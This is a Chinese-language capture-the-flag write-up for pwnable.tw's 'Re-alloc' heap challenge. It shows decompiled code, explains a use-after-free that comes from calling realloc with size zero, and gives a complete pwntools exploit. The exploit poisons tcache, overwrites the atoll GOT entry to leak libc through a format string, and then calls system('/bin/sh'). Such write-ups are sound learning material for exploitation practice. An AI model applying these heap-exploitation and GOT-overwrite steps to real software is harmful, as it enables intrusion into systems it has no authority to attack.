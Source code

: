 # pwnable.tw-Re-alloc

## checksec 

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## IDA

**add**

```c
int allocate()
{
  _BYTE *v0; // rax
  unsigned __int64 v2; // [rsp+0h] [rbp-20h]
  unsigned __int64 size; // [rsp+8h] [rbp-18h]
  void *v4; // [rsp+18h] [rbp-8h]

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] )
  {
    LODWORD(v0) = puts("Invalid !");
  }
  else
  {
    printf("Size:");
    size = read_long();
    if ( size <= 0x78 )
    {
      v4 = realloc(0LL, size);
      if ( v4 )
      {
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else
      {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else
    {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```

**edit**

```c
int reallocate()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-18h]
  unsigned __int64 size; // [rsp+10h] [rbp-10h]
  void *v3; // [rsp+18h] [rbp-8h]

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```

**free**

```c
int rfree()
{
  _QWORD *v0; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 )
  {
    LODWORD(v0) = puts("Invalid !");
  }
  else
  {
    realloc((void *)heap[v2], 0LL);
    v0 = heap;
    heap[v2] = 0LL;
  }
  return (int)v0;
}
```

程序的各种功能都是由`realloc`来实现的。`realloc`有两个参数`ptr`与`size`：

- `ptr == NULL`：其与`malloc`**等价**
- `ptr != NULL`:
  - `new size == old size`：直接将`ptr`返回。
  - `new size < old size`：将`ptr`进行分割，剩余部分若大于最小chunk的大小就会被free
  - `new size > old size`：调用`malloc`申请一块新的内存，拷贝数据后将`old ptr`释放
  - `new size == 0`：与`free`**等价**

在`edit`中，若`new size`为0，就相当于对chunk进行了free，free的返回值为0。程序进行了返回，没有将原来的指针进行更新，所以我们可以进行UAF。

got表可写，但是没有show函数，先想办法通过修改got表进行leak。计划修改`atoll_got`为`printf_plt`，我们就可以通过格式化字符串漏洞来泄露got表中的地址，从而leak libc。

首先，申请一个chunk，使用`edit`将其free，并修改其`fd`指向`atoll_got`。然后，再将这个chunk申请回来，这时`next`就会被填入`atoll_got`。为了不影响最开始的这个`tcache bin`，我们`realloc`这个chunk，为一个新大小，然后free掉。这时，这个chunk的key被清空了，但是heap数组中还有这个chunk的指针，而且我么没法直接覆盖，所以我们再次通过`realloc`修改器key域为垃圾数据，将其free就可以清空heap数组了。最后，一个`tcache bin`的`next`不为`NULL`但是count为0，之后再申请对应的大小就会让count造成溢出。

在leak libc后，还要再次进行修改，所以我们再次使用上述操作，使另一个`tcache bin`的`next`指向`atoll_got`。

## exp

```python
from pwn import *
#from LibcSearcher import LibcSearcher
from struct import pack
import sys

leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))
context(arch = 'amd64' , os = 'linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

binary='./re-alloc'
#gdb.attach(sh)
if 'l' in sys.argv[1] and 'r' not in sys.argv[1]:
	log.info('Test in local...')
	sh=process(binary)
if 'r' in sys.argv[1]:
	log.info('Attacking...')
	sh=remote('chall.pwnable.tw', 10106)

elf = ELF(binary,checksec=False)
libc = ELF('libc.so',checksec=False)

def add(idx,size,data):
	sh.sendlineafter('choice: ','1')
	sh.sendlineafter('Index:',str(idx))
	sh.sendlineafter('Size:',str(size))
	sh.sendafter('Data:',data)

def edit(idx,size,data):
	sh.sendlineafter('choice: ','2')
	sh.sendlineafter('Index:',str(idx))
	sh.sendlineafter('Size:',str(size))
	if size != 0:
		sh.sendafter('Data:',data)

def dele(idx):
	sh.sendlineafter('choice: ','3')
	sh.sendlineafter('Index:',str(idx))	

atoll_got = elf.got['atoll']
printf_plt = elf.plt['printf']

add(0,0x18,'a'*0x8)
edit(0,0,'')
edit(0,0x18,p64(atoll_got))
add(1,0x18,'a'*0x8)
edit(0,0x38,'a'*8)
dele(0)
edit(1,0x38,'b'*0x10)
dele(1)

add(0,0x48,'a'*0x8)
edit(0,0,'')
edit(0,0x48,p64(atoll_got))
add(1,0x48,'a'*0x8)
edit(0,0x58,'a'*8)
dele(0)
edit(1,0x58,'b'*0x10)
dele(1)

add(0,0x48,p64(printf_plt))
sh.sendlineafter('choice: ','1')
sh.recvuntil("Index:")
sh.sendline('%6$p')
stdout_addr = int(sh.recv(14),16)
libc.address=stdout_addr -libc.sym['_IO_2_1_stdout_']
info("libc: "+hex(libc.address))
sh.sendlineafter('choice: ','1')
sh.recvuntil(":")
sh.sendline('a'+'\x00')
sh.recvuntil(":")
sh.send('a'*15+'\x00')
sh.recvuntil("Data:")
sh.send(p64(libc.sym['system']))

# gdb.attach(p)
sh.sendlineafter('choice: ','3')
sh.recvuntil("Index:")
sh.sendline("/bin/sh\x00")
sh.interactive()

```

由于延迟原因（~~辣鸡校园网~~，建议使用`sh.recvuntil('xxx');sh.send('xxx')`而不是`sendlineafter`。

